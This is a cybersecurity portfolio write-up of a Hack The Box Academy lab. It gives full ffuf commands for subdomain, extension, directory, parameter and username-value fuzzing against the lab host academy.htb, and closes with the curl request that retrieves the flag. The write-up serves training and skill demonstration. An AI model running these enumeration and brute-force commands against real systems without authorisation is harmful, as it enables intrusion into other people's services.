 
# Reconnaissance and Fuzzing with FFUF

**Author:** Jordan Davis  
**Project Type:** Cybersecurity Portfolio Project  
**Platform:** Hack The Box Academy  

---

## 📌 Executive Summary

This assessment demonstrates real-world reconnaissance and fuzzing techniques using FFUF (Fuzz Faster U Fool) within a controlled lab environment on Hack The Box Academy. It walks through subdomain enumeration, file extension fuzzing, hidden page discovery, parameter enumeration, and value fuzzing to ultimately retrieve a sensitive flag from a web service.

This workflow mirrors foundational steps in offensive security, penetration testing, and bug bounty reconnaissance.

---

## 🎯 Objective

- Enumerate subdomains
- Discover accepted file extensions
- Identify hidden pages and directories
- Fuzz parameters and values
- Extract sensitive information using filtering and automation

---

## 🛠️ Tools & Environment

- **Tool:** FFUF (`Fuzz Faster U Fool`)
- **Wordlists:** [SecLists](https://github.com/danielmiessler/SecLists)
    - DNS
    - Web extensions
    - Directory names
    - Parameter names
    - Common usernames
- **Target Platform:** Hack The Box Academy FFUF Skill Assessment
- **System Environment:** Pwnbox (Parrot OS)

---

## 🔍 Methodology and Results

### 1. 🔎 Subdomain Discovery

**Command:**
```bash
ffuf -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:39069 -H 'Host: FUZZ.academy.htb' -v -c -fs 985
```

**Identified Subdomains:**
- `test.academy.htb`
- `archive.academy.htb`
- `faculty.academy.htb`

---

### 2. 🧩 Extension Fuzzing

**Command:**
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://academy.htb:39069/index.FUZZ -v -c
```

**Identified Extensions:**
- `academy.htb`: `.php`, `.phps`
- `test.academy`, `archive.academy`: `.php`
- `faculty.academy`: `.php7`

---

### 3. 🗂️ Hidden Page Discovery

**Command:**
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://faculty.academy.htb:39069/courses/FUZZ -v -c -e .php,.php7,.phps -fs 287
```

**Result:**
- `http://faculty.academy.htb:39069/courses/linux-security.php7`

---

### 4. 🧪 Parameter Discovery

**Command:**
```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u http://faculty.academy.htb:39069/courses/linux-security.php7?FUZZ=test -X POST -d 'FUZZ=key' -H 'Content-type: application/x-www-form-urlencoded' -fs 774
```

**Discovered Parameters:**
- `user` (GET)
- `username` (POST)

---

### 5. 🔓 Parameter Value Fuzzing

**Command:**
```bash
ffuf -w /opt/useful/seclists/Usernames/xato-net-10-million-usernames.txt:FUZZ -u http://faculty.academy.htb:48440/courses/linux-security.php7 -X POST -d 'username=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -v -c -fs 781
```

**Flag Retrieved With:**
```bash
curl http://faculty.academy.htb:48440/courses/linux-security.php7 -X POST -d 'username=harry'
```

---

## ✅ Conclusion

This exercise showcases:
- Subdomain enumeration
- Extension fuzzing
- Directory/page discovery
- Parameter fuzzing
- Sensitive data extraction through automation

These are foundational web reconnaissance techniques used in professional penetration testing and bug bounty workflows. The methodology used here reflects practical industry standards, and this write-up serves as a strong demonstration of recon and fuzzing skillset for a cybersecurity portfolio.

---

> 📂 A copy of this write-up is also available as a downloadable [PDF version](./FFUF_Recon_Portfolio_Writeup_Jordan_Davis_Formatted.pdf) in this repository.
